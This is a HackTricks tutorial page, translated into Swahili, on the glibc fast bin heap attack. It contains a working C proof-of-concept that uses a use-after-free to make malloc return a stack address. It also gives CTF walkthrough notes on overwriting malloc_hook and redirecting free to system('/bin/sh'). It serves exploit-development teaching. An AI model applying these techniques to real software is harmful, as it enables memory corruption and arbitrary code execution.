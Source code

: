 # Shambulio la Fast Bin

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

Kwa habari zaidi kuhusu ni nini fast bin, tafadhali angalia ukurasa huu:

{% content-ref url="bins-and-memory-allocations.md" %}
[bins-and-memory-allocations.md](bins-and-memory-allocations.md)
{% endcontent-ref %}

Kwa kuwa fast bin ni kiungo kimoja, kuna kinga chache sana kuliko katika mabakuli mengine na **kubadilisha anwani katika kipande cha fast bin kilichofutwa** ni ya kutosha kuweza **kuweka kipande baadaye katika anwani yoyote ya kumbukumbu**.

Kwa muhtasari:

{% code overflow="wrap" %}
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
{% endcode %}

Unaweza kupata mfano kamili katika namna iliyoelezwa vizuri kwenye msimbo kutoka [https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
puts("Today we will be discussing a fastbin attack.");
puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

puts("Let's start, we will allocate three chunks of size 0x30\n");
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);


printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

int stackVar = 0x55;

printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

printf("Chunk 0: %s\n", (char *)ptr0);
printf("Chunk 1: %s\n", (char *)ptr1);
printf("Chunk 2: %s\n\n", (char *)ptr2);

printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

free(ptr0);
free(ptr1);
free(ptr2);

printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

*ptr1 = (unsigned long)((char *)&stackVar);

printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(0x30);
ptr4 = malloc(0x30);
ptr5 = malloc(0x30);

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```
{% hint style="danger" %}
Ikiwa niwezekana kubadilisha thamani ya kigezo cha kimataifa **`global_max_fast`** na nambari kubwa, hii inaruhusu kuzalisha fast bin za ukubwa mkubwa, ikiruhusu kufanya mashambulizi ya fast bin katika hali ambapo hapakuwa na uwezekano hapo awali.
{% endhint %}

## Mifano

* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html)**:**
* Inawezekana kutenga vipande, kuvifuta, kusoma maudhui yao na kuvijaza (kwa udhaifu wa kujaa).
* **Consolidate chunk for infoleak**: Mbinu hii ni kimsingi kutumia udhaifu wa kujaa ili kuunda ukubwa wa awali wa uwongo ili kipande kimoja kilichotangulia kiwekwe ndani ya kipande kikubwa, hivyo wakati wa kutenga kipande kikubwa kinachotia kipande kingine, inawezekana kuchapisha data yake na kuvuja anwani ya libc (main\_arena+88).
* **Overwrite malloc hook**: Kwa hili, na kutumia hali ya kufunika iliyotangulia, ilikuwa inawezekana kuwa na vipande 2 vilivyokuwa vikionyesha kwenye kumbukumbu ile ile. Kwa hivyo, kuvifuta vyote viwili (kwa kufuta kipande kingine kati yake kuepuka ulinzi) ilikuwa inawezekana kuwa na kipande kimoja katika fast bin mara 2. Kisha, ilikuwa inawezekana kutenga tena, kubadilisha anwani ya kipande kinachofuata ili ielekee kidogo kabla ya malloc\_hook (hivyo inaelekeza kwa nambari ambayo malloc inafikiria ni ukubwa huru - kuepuka nyingine), kutenga tena na kisha kutenga kipande kingine ambacho kitapokea anwani za vifaa vya malloc. Hatimaye **one gadget** iliandikwa hapo.
* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html)**:**
* Kuna kujaa kwa kumbukumbu na mtumiaji baada ya kufuta na kufuta mara mbili kwa sababu wakati kipande kinapofutwa inawezekana kutumia upya na kufuta upya pointi
* **Libc info leak**: Tuache vipande vichache na vitapata pointi kwa sehemu ya eneo la uwanja mkuu. Kwa kuwa unaweza kutumia upya pointi zilizofutwa, soma anwani hii.
* **Fast bin attack**: Pointi zote kwa kutengwa hukaa ndani ya safu, hivyo tunaweza kufuta vipande vichache vya fast bin na katika cha mwisho kubadilisha anwani ili ielekee kidogo kabla ya safu hii ya pointi. Kisha, tengeneza vipande vichache na ukubwa sawa na tutapata kwanza halali na kisha bandia inayohusisha safu ya pointi. Sasa tunaweza kubadilisha pointi hizi za kutengwa ili zielekee kwenye anwani ya `free` ili ielekee kwa mfumo na kisha andika kipande 1 `"/bin/sh"` kisha `free(chunk1)` ambayo itatekeleza `system("/bin/sh")`.
* Unaweza kupata shambulizi la Fast Bin lililotumiwa kupitia shambulizi la unsorted bin.
* **Tahadhari**&#x20;

{% content-ref url="unsorted-bin-attack.md" %}
[unsorted-bin-attack.md](unsorted-bin-attack.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze AWS hacking kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kuhack kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
